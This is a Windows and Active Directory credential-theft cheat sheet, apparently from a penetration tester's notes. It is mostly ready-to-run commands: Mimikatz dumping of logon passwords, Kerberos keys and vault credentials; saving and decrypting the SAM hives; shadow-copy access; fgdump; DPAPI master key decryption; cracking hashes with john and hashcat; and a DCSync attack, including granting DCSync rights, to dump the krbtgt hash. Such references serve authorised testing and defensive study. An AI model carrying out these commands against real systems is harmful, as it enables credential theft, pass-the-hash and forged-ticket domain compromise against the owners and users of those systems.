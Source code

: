 # Credentials and Tickets

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords 
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred
vault::list
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes

Enumerate copies

```
vssadmin list shadows
diskshadow list shadows all
```

Create a link to the copy

```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\<shadow copy volume name>\
```

## SAM credentials dump

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks.

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DPAPI hash dump

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## DC KRBTGT hash dump

Use a DCSync attack to dump the hash used by the domain controller to sign Kerberos tickets. This allows an attacker to create custom tickets and impersonate other users or gain access to different services/hosts. To execute this attack we need to operate under a user with the `Replicating Directory Changes All` and `Replicating Directory Changes` privileges. By default Local and Domain Administrators own these privileges.

Find users with the required privileges with PowerView

```
Get-ObjectACL -DistinguishedName "dc=<domain>,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }
```

If the current user lacks the required permissions run this command on the DC to add them.

```
Add-ObjectAcl -TargetDistinguishedName "dc=<domain>,dc=local" -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

Run mimikatz on the DC

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```
